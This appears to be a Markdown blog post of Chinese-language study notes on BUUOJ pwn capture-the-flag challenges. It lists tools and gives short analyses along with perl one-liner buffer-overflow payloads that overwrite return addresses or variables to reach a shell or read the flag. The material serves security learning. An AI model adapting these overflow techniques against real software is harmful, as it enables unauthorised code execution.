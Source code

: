 ```yaml
---
layout: post
title:  "信息安全学习笔记 - BUUOJ Pwn 入门"
date:   2020-07-11 12:15:38 +0800
---
```



# BUUOJ PWN

## Requirements
1. python
   1. ropgadget, capstone, 
   2. pwntools
2. nasm

## Prologue
1. file xxx
   1. arch, stripped?
2. checksec

## Problems

1. test_your_nc 
   1. ida system("/bin/sh");
   2. `perl -e 'print "ls\ncat flag\n"' | test_your_nc`
2. rip
   1. `system("/bin/sh")` found
   2. segfault???
3. warmup_csaw_2016
   1. amd64, C `gets` and `system("cat flag.txt")` found
   2. overwrite return address
   3. `perl -e 'print "A"x72 . "\x0d\x06\x40\x00\x00\x00\x00\x00\n"' | ./warmup_csaw_2016`
4. pwn1_sctf_2016
   1. x86, C `gets` and `'system("cat flag.txt")'` found
   2. overwrite return address
   3. `std::string`: the source replaces any appearance of `I` with `you` in string input
   4. `perl -e 'print "I"x20 . "\xef\xbe\xad\xde\x0d\x8f\x04\x08\n"' | ./pwn1`
5. ciscn_2019_n_1
   1. amd64, C `gets`
   2. overwrite a variable and bypass
   3. floating point number comparison
      1. more info about `xmm0` [SSE registers](https://en.wikibooks.org/wiki/X86_Assembly/SSE#Registers):
         1. [saturation arithmetic](https://en.wikipedia.org/wiki/Saturation_arithmetic) and [clamping](https://en.wikipedia.org/wiki/Clamping_(graphics))
         2. SIMD instructions
   4. `perl -e 'print "A"x(0x30-4) . "\x00\x80\x34\x41\n"' | ./ciscn_2019_n_1`
6. ciscn_2019_c_1 [传送门]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html)
7. [OGeek2019]babyrop
   1. x86, C `read`
   2. bypass `strncmp` using `\x00` to truncate string
   3. [传送门]({{ site.url }}/assets/OGeek2019_babyrop.py)
8. ciscn_2019_en_2: 几乎和 [ciscn_2019_c_1]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html)完全一致，区别仅仅在于异或的操作数有区别，但是可以照搬脚本不影响过程。